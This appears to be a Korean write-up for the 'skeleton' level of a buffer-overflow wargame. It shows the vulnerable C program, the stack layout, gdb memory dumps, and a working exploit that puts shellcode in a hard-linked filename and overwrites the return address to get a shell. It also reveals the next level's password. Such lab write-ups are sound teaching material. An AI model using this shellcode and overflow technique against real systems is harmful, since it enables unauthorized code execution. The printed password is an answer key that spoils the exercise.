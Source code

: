 ============================================================================================================
[redhat-lob] (10) skeleton
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1] value"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="program name address"];
    }

|

Source Code
============================================================================================================


.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i, saved_argc;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
            printf("argument is too long!\n");
            exit(0);
        }

        // argc saver
        saved_argc = argc;

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // ultra argv hunter!
        for(i=0; i<saved_argc; i++)
            memset(argv[i], 0, strlen(argv[i]));
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) 
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] address
    argv[1] (4byte)  <- argv[1] address
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1] value의 47번째 문자가 "\\xbf"이어야 함
- argv[1] 값의 길이가 48 미만 이어야 함
- argv[0] 값, argv[1] 값을 초기화하여 argv[0], argv[1] 주소로 버퍼오버플로우를 진행할 수 없다.


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행.
    $ bash2

    $ ./skeleton `python -c 'print "a"*47'`
    stack is still your friend.

    $ ./skeleton `python -c 'print "a"*47+"\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================


프로그램 이름에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
    
    $ ln skeleton2 `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    $ gdb -q `python -c 'print "\x90"*40+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/vampire/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒P▒▒▒bWR▒▒▒QX]R▒▒PS▒▒1Ұ
                                             ̀ `python -c 'print "a"*47+"\xbf"'`

    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()
    (gdb) x/100x $esp

    ==========================================================================
    0xbffffa0c:     0x400309cb      0x00000002      0xbffffa54      0xbffffa60
    0xbffffa1c:     0x40013868      0x00000002      0x08048450      0x00000000
    0xbffffa2c:     0x08048471      0x08048500      0x00000002      0xbffffa54
    0xbffffa3c:     0x08048390      0x080486ac      0x4000ae60      0xbffffa4c
    0xbffffa4c:     0x40013e90      0x00000002      0xbffffb4c      0xbffffbe6
    0xbffffa5c:     0x00000000      0xbffffc17      0xbffffc39      0xbffffc43
    0xbffffa6c:     0xbffffc51      0xbffffc70      0xbffffc80      0xbffffc99
    0xbffffa7c:     0xbffffcb4      0xbffffcbf      0xbffffccd      0xbffffd0e
    (중략)
    0xbfffff5c:     0x35333b31      0x682f003a      0x2f656d6f      0x706d6176
    0xbfffff6c:     0x2f657269      0x90909090      0x90909090      0x90909090
    0xbfffff7c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff8c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffff9c:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffac:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffbc:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbfffffcc:     0x90909090      0x90909090      0xba50c031      0x11111111
    0xbfffffdc:     0x1e1ec281      0xba525762      0x11111111      0x511ec281
    0xbfffffec:     0x89525d58      0x895350e3      0xb0d231e1      0x0080cd0b
    0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
    ==========================================================================

program명 주소를 찾아서 RET로 덮어씌우면 됩니다.


RET 주소를 프로그램 이름이 존재하는 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- 프로그램 이름 주소
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ......
    program name     <- 프로그램 이름
    NULL
    ----------------
    HIGH    
    ================

|

filename : nop(100 byte) + shellcode(39 byte) 

argv[1] : nop(44 byte) + argv[0] address

.. code-block:: console

    $ ./`python -c 'print "\x90"*100+"\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` `python -c 'print "a"*44+"\xbc\xff\xff\xbf"'`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒▒▒▒

    bash$ whoami
    skeleton
    bash$ my-pass
    euid = 510
    shellcoder
